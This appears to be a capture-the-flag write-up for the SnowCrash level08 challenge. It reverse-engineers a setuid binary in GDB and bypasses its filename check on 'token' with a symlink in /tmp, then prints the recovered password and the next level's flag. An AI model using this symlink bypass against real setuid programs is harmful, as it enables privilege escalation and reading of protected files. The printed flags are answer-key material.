 # level08

- We login as user level08.
```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
level07@SnowCrash:~$ gdb ./level08
...
(gdb) info functions
All defined functions:

File level08.c:
int main(int, char **, char **);

Non-debugging symbols:
0x080483b4  _init
...
```
```
(gdb) disas main
Dump of assembler code for function main:
   0x08048554 <+0>:     push   %ebp
   0x08048555 <+1>:     mov    %esp,%ebp
   0x08048557 <+3>:     and    $0xfffffff0,%esp
   0x0804855a <+6>:     sub    $0x430,%esp
   0x08048560 <+12>:    mov    0xc(%ebp),%eax
   0x08048563 <+15>:    mov    %eax,0x1c(%esp)
   0x08048567 <+19>:    mov    0x10(%ebp),%eax
   0x0804856a <+22>:    mov    %eax,0x18(%esp)
   0x0804856e <+26>:    mov    %gs:0x14,%eax
   0x08048574 <+32>:    mov    %eax,0x42c(%esp)
   0x0804857b <+39>:    xor    %eax,%eax
   0x0804857d <+41>:    cmpl   $0x1,0x8(%ebp)
   0x08048581 <+45>:    jne    0x80485a6 <main+82>
   0x08048583 <+47>:    mov    0x1c(%esp),%eax
   0x08048587 <+51>:    mov    (%eax),%edx
   0x08048589 <+53>:    mov    $0x8048780,%eax
   0x0804858e <+58>:    mov    %edx,0x4(%esp)
   0x08048592 <+62>:    mov    %eax,(%esp)
   0x08048595 <+65>:    call   0x8048420 <printf@plt>
   0x0804859a <+70>:    movl   $0x1,(%esp)
   0x080485a1 <+77>:    call   0x8048460 <exit@plt>
   0x080485a6 <+82>:    mov    0x1c(%esp),%eax
   0x080485aa <+86>:    add    $0x4,%eax
   0x080485ad <+89>:    mov    (%eax),%eax
   0x080485af <+91>:    movl   $0x8048793,0x4(%esp)
   0x080485b7 <+99>:    mov    %eax,(%esp)
   0x080485ba <+102>:   call   0x8048400 <strstr@plt>
   0x080485bf <+107>:   test   %eax,%eax
   0x080485c1 <+109>:   je     0x80485e9 <main+149>
   0x080485c3 <+111>:   mov    0x1c(%esp),%eax
   0x080485c7 <+115>:   add    $0x4,%eax
   0x080485ca <+118>:   mov    (%eax),%edx
   0x080485cc <+120>:   mov    $0x8048799,%eax
   0x080485d1 <+125>:   mov    %edx,0x4(%esp)
   0x080485d5 <+129>:   mov    %eax,(%esp)
   0x080485d8 <+132>:   call   0x8048420 <printf@plt>
   0x080485dd <+137>:   movl   $0x1,(%esp)
   0x080485e4 <+144>:   call   0x8048460 <exit@plt>
   0x080485e9 <+149>:   mov    0x1c(%esp),%eax
   0x080485ed <+153>:   add    $0x4,%eax
   0x080485f0 <+156>:   mov    (%eax),%eax
   0x080485f2 <+158>:   movl   $0x0,0x4(%esp)
   0x080485fa <+166>:   mov    %eax,(%esp)
   0x080485fd <+169>:   call   0x8048470 <open@plt>
   0x08048602 <+174>:   mov    %eax,0x24(%esp)
   0x08048606 <+178>:   cmpl   $0xffffffff,0x24(%esp)
   0x0804860b <+183>:   jne    0x804862e <main+218>
   0x0804860d <+185>:   mov    0x1c(%esp),%eax
   0x08048611 <+189>:   add    $0x4,%eax
   0x08048614 <+192>:   mov    (%eax),%eax
   0x08048616 <+194>:   mov    %eax,0x8(%esp)
   0x0804861a <+198>:   movl   $0x80487b2,0x4(%esp)
   0x08048622 <+206>:   movl   $0x1,(%esp)
   0x08048629 <+213>:   call   0x8048440 <err@plt>
   0x0804862e <+218>:   movl   $0x400,0x8(%esp)
   0x08048636 <+226>:   lea    0x2c(%esp),%eax
   0x0804863a <+230>:   mov    %eax,0x4(%esp)
   0x0804863e <+234>:   mov    0x24(%esp),%eax
   0x08048642 <+238>:   mov    %eax,(%esp)
   0x08048645 <+241>:   call   0x8048410 <read@plt>
   0x0804864a <+246>:   mov    %eax,0x28(%esp)
   0x0804864e <+250>:   cmpl   $0xffffffff,0x28(%esp)
   0x08048653 <+255>:   jne    0x8048671 <main+285>
   0x08048655 <+257>:   mov    0x24(%esp),%eax
   0x08048659 <+261>:   mov    %eax,0x8(%esp)
   0x0804865d <+265>:   movl   $0x80487c4,0x4(%esp)
   0x08048665 <+273>:   movl   $0x1,(%esp)
   0x0804866c <+280>:   call   0x8048440 <err@plt>
   0x08048671 <+285>:   mov    0x28(%esp),%eax
   0x08048675 <+289>:   mov    %eax,0x8(%esp)
   0x08048679 <+293>:   lea    0x2c(%esp),%eax
   0x0804867d <+297>:   mov    %eax,0x4(%esp)
   0x08048681 <+301>:   movl   $0x1,(%esp)
   0x08048688 <+308>:   call   0x8048490 <write@plt>
   0x0804868d <+313>:   mov    0x42c(%esp),%edx
   0x08048694 <+320>:   xor    %gs:0x14,%edx
   0x0804869b <+327>:   je     0x80486a2 <main+334>
   0x0804869d <+329>:   call   0x8048430 <__stack_chk_fail@plt>
   0x080486a2 <+334>:   leave
   0x080486a3 <+335>:   ret
End of assembler dump.
```


- We can see that after moving certain values onto the stack the program compares the constant `0x1` with the value located at `0x8(%ebp)`. If this comparison results in equality, the program will call `<printf@plt>` with the value contained in memory address `0x8048799`, and then `<exit@plt>`.
```
(gdb) x/s 0x8048780
0x8048780:       "%s [file to read]\n"
```


- It can be assumed that this binary results from a program written in C. The latter compares `argc` to the constant `0x1`, so `if argc == 1` (if the program was launched without arguments), it displays `./level08 [file to read]` and exits.


- Then, we can see that `<strstr@plt>` is called to search within the string located in the `eax` register for the string that starts at address `0x8048793`.
```
(gdb) x/s 0x8048793
0x8048793:       "token"
```


- Thus, if the string `token` is found within the string contained in the `eax` register (likely the first parameter given to the program), it will `<printf@plt>` the string that starts at address `0x8048799`, and then `<exit@plt>`. Otherwise, the program will call `<open@plt>`, followed by `<read@plt>` and `<write@plt>`.
```
(gdb) x/s 0x8048799
0x8048799:       "You may not access '%s'\n"
```


- Let's see:
```
level08@SnowCrash:~$ echo test > /tmp/exploit
level08@SnowCrash:~$ ./level08 /tmp/exploit
test

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```


- So, the program checks its first parameter, if it contains the string `token`, `You may not access 'token'`, then `<exit@plt>` is displayed.
Otherwise, it will attempt to open a file named with the value of its first parameter and will `<write@plt>` the contents of that file to the standard output with. Thus:
```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/exploit
level08@SnowCrash:~$ ./level08 /tmp/exploit
quif5eloekouj29ke0vouxean

level08@SnowCrash:~$ su flag08
Password:quif5eloekouj29ke0vouxean
Don't forget to launch getflag !

flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

flag08@SnowCrash:~$ su level09
Password:25749xKZ8L7DkSCwJkT9dyv6f
level09@SnowCrash:~$
```